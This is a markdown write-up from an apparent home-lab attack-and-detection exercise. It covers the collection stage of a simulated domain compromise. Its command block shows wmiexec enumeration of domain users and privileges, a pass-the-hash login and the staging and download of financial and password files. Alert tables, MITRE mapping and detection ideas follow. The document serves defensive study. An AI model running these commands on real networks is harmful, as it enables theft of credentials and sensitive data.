







# Stage 18 — Collection

> **Status:** Complete — evidence attached  
> **Case:** [Case 03](../../04-Investigation/Cases/case-03-domain-compromise.md)  
> **Investigation:** [Stage 18](../../04-Investigation/Stages/stage-18-collection.md)  
> **Evidence:** [attack](../Attack-Screenshots/54.png) · [alert](../../03-Detection-Engineering/TheHive_Alert-ScreenShot/18.png)

## Objective

Identify, aggregate, and stage high-value intelligence—including full domain user accounts, administrative security privileges, corporate financial records, and stored credentials—from the Domain Controller and Windows 10 workstation into centralized temporary staging files for subsequent exfiltration.

## Commands

```bash
# === Domain Controller (PC-DC.ad.lab) Collection via wmiexec ===
# Dump all domain user accounts into a temporary staging file
cmd /c "net user /domain > C:\Windows\Temp\domain_users.txt"

# Dump comprehensive token, privilege, and group information for the administrative session
cmd /c "whoami /all > C:\Windows\Temp\admin_info.txt"

# Download the staged intelligence files from the DC to the DVWA pivot host
lget C:\Windows\Temp\domain_users.txt
lget C:\Windows\Temp\admin_info.txt
exit

# === Windows 10 Workstation (192.168.56.20) Collection via Pass-the-Hash ===
# Authenticate to the Windows 10 workstation using the Administrator NTLM hash
python3 /usr/local/bin/wmiexec.py -hashes aad3b***ee:cc814***9fb Administrator@192.168.56.20

# Aggregate confidential user documents (financials.txt, passwords.txt) into a single staging file
cmd /c "type C:\Users\win10\Documents\Sensitive\* > C:\Windows\Temp\sensitive_data.txt"

# Download the consolidated sensitive file from the workstation to the DVWA pivot host
lget C:\Windows\Temp\sensitive_data.txt
exit
```

## What happened

With administrative control established across both the identity core (Domain Controller) and client endpoints, the adversary shifted focus to data acquisition and intelligence harvesting. The objective was twofold: capture Active Directory enterprise directory structures and extract confidential user data from local endpoints.

First, within the active WMI session on the Domain Controller (`PC-DC`), the attacker issued `cmd /c "net user /domain > C:\Windows\Temp\domain_users.txt"`, dumping the complete roster of Active Directory user accounts into a temporary staging file. Immediately following this, the adversary executed `cmd /c "whoami /all > C:\Windows\Temp\admin_info.txt"`, capturing the full security context of the compromised administrator account, including security identifiers, token privileges (such as `SeDebugPrivilege`, `SeImpersonatePrivilege`), and domain group memberships. Using Impacket's integrated `lget` command over the active SMB transport, the attacker pulled both files directly from `C:\Windows\Temp\` into the `/tmp` directory on the DVWA pivot machine (`192.168.56.30`).

Next, the attacker targeted the Windows 10 enterprise workstation (`192.168.56.20`). Utilizing the `Administrator` NTLM hash (`aad3b***ee:cc814***9fb`) harvested previously, the adversary connected via Pass-the-Hash using `wmiexec.py`. Once inside the workstation's administrative shell, the attacker identified a high-value directory containing proprietary corporate information: `C:\Users\win10\Documents\Sensitive\`. 

Using native command concatenation, the attacker executed `cmd /c "type C:\Users\win10\Documents\Sensitive\* > C:\Windows\Temp\sensitive_data.txt"`. This command merged the contents of both `financials.txt` (corporate financial records) and `passwords.txt` (stored credentials) into a single staging artifact. Using `lget`, the attacker downloaded `sensitive_data.txt` to the DVWA pivot host, centralizing all harvested intelligence in preparation for egress.

## Evidence

### Attack Execution Screenshots


*Figure 18.1: Enumerating domain accounts and administrative privileges to temporary staging files on PC-DC and downloading via lget.*


*Figure 18.2: Lateral movement via Pass-the-Hash to Windows 10, concatenating sensitive documents, and downloading via lget.*

### Detection & Alert Screenshots


*Figure 18.3: TheHive Alert 16 overview capturing process fan-out on DomainWin10 under parent PID 4432 (`wzb-aa66cb916a`).*


*Figure 18.4: Alert 16 event breakdown showing child process command line executions for data harvesting.*


*Figure 18.5: TheHive alert dashboard showing process fan-out alerts generated on both DomainWin10 (DC) and Win10User endpoints.*


*Figure 18.4: Wazuh Sysmon alert (Rule 100613) capturing command execution on PC-DC writing `domain_users.txt` and `admin_info.txt`.*


*Figure 18.5: Wazuh Sysmon alert (Rule 100613) on Win10 workstation detecting sensitive data aggregation to `sensitive_data.txt`.*

## Alert observed

| Source | Rule / Event Description | Rule ID | TheHive Alert Title | Severity | Status |
|---|---|---|---|---|---|
| Wazuh / Sysmon | Impacket wmiexec detected (`net user /domain > domain_users.txt`) | 100613 | `[FANOUT x2] [DomainWin10] parent PID 4432` | Medium (2) | Detected |
| Wazuh / Sysmon | Impacket wmiexec detected (`whoami /all > admin_info.txt`) | 100613 | `[FANOUT x2] [DomainWin10] parent PID 4432` | Medium (2) | Detected |
| Wazuh / Sysmon | Impacket wmiexec detected (`type C:\Users\win10\Documents\Sensitive\* > sensitive_data.txt`) | 100613 | `[FANOUT x3] [Win10User] parent PID 4008` | Medium (2) | Detected |

> [!NOTE]
> Wazuh's custom behavioral rule `100613` effectively detected the command execution on both hosts by matching Impacket's command-line execution signature, which routes output through temporary files on `\\127.0.0.1\ADMIN$\__*`. Furthermore, the explicit redirection to `C:\Windows\Temp\` was preserved in the command line argument telemetry.

## MITRE ATT&CK

| Tactic | Technique | Sub-technique | ID |
|---|---|---|---|
| Collection | Data from Local System | | T1005 |
| Collection | Data Staged | Local Data Staging | T1074.001 |
| Discovery | Account Discovery | Domain Account | T1087.002 |
| Discovery | System Owner/User Discovery | | T1033 |
| Lateral Movement | Use Alternate Authentication Material | Pass the Hash | T1550.002 |
| Execution | Windows Management Instrumentation | | T1047 |

## Detection opportunities

- **Command-Line Output Redirection Detection:** Create Sysmon rules (Event ID 1) alerting on command interpreters (`cmd.exe`, `powershell.exe`) executing output redirection (`>`, `>>`) into staging directories such as `C:\Windows\Temp\`, `C:\Users\Public\`, or `C:\ProgramData\`.
- **Sensitive Directory Access Auditing:** Enable Windows Object Access Auditing (Event ID 4663) or Sysmon File Create/Read monitoring on user document repositories (`C:\Users\*\Documents\Sensitive\*`) to detect bulk data access by administrative accounts.
- **Bulk Discovery Command Burst Detection:** Correlate multiple high-impact discovery utilities executed within short intervals (e.g., `net user /domain`, `whoami /all`, `net group /domain`, `nltest`) spawning from non-interactive shell sessions.
- **Administrative Share File Retrieval (lget) Auditing:** Monitor SMB read activity targeting `ADMIN$` or `C$\Windows\Temp\` originating from internal Linux pivot hosts or non-standard administrative endpoints.

## Notes

- **Staged Intelligence Files (Domain Controller):**
  - `C:\Windows\Temp\domain_users.txt` (Active Directory user accounts)
  - `C:\Windows\Temp\admin_info.txt` (Administrative tokens, privileges, and SIDs)
- **Staged Sensitive Files (Windows 10 Workstation):**
  - `C:\Windows\Temp\sensitive_data.txt` (Consolidation of `financials.txt` and `passwords.txt`)
- **Staging Drop Zone:** `/tmp/` on DVWA pivot host (`192.168.56.30`)
- **Key Observation:** The adversary used native Windows utilities (`type`, `net`, `whoami`) to perform collection, relying on Living-off-the-Land Binaries (LOLBins) to avoid triggering basic file-signature antivirus detections.
